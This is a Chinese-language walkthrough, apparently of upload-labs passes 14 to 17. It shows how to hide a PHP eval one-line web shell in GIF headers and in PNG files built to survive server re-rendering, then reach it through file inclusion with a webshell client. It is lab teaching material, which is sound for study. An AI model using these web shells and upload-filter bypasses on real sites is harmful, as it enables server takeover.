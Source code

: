 GIF的文件头GIF89a ,ZIP压缩文件文件头PK   ,7z压缩文件文件头7z

```
法1.创建一个空的.php文件，用notepad++写入GIF89a  <?php @eval($_POST[value]);?>
法2.gif后缀文件,用notepad++写入一句话木马
```

把制作好的图片马上传，打开`文件包含漏洞`发送GET请求`？file=upload/图片文件名`，蚁剑连接即可


# Pass-15

## 考察点 getimagesize

getimagesize() 函数用于获取图像大小及相关信息，成功返回一个数组，失败则返回 FALSE 并产生一条 E_WARNING 级的错误信息.本关匹配Content-type

```
索引 [2] 给出的是图像的类型，返回的是数字，其中1 = GIF，2 = JPG，3 = PNG，4 = SWF，5 = PSD，6 = BMP，7 = TIFF(intel byte order)，8 = TIFF(motorola byte order)，9 = JPC，10 = JP2，11 = JPX，12 = JB2，13 = SWC，14 = IFF，15 = WBMP，16 = XBM
```

做法同Pass-14



# Pass-16

## 考察点 exif_imagetype()

 exif_imagetype() 读取一个图像的第一个字节并检查其签名。如果发现了恰当的签名则返回一个对应的常量，否则返回 FALSE。返回值跟getimagesize() 返回的数组中的索引 [2] 的值是一样的



要做这个题首先要把Php扩展php_exif开启

做法同上



# Pass-17

## 考察点 二次渲染  /  imagecreatefromjpeg（）

```php
imagecreatefromjpeg()会把文件尾部的PHP代码去除，所以本题只需找到渲染前后没有变化的位置(可以用beyond compare进行比较）,然后将一句话php代码写进去，即可上传成功
```

做法同上

```
下列代码，可以制作一张二次渲染过后，恶意代码依旧存在的png图片马
<?php
//png.php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0xe, 0x93, 0x1b, 0x23, 0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae, 0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc, 0x5a, 0x1, 0xdc, 0x5a, 0x1, 0xdc, 0xa3, 0x9f, 0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c, 0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d, 0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1, 0x66, 0x44, 0x50, 0x33);
$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}
```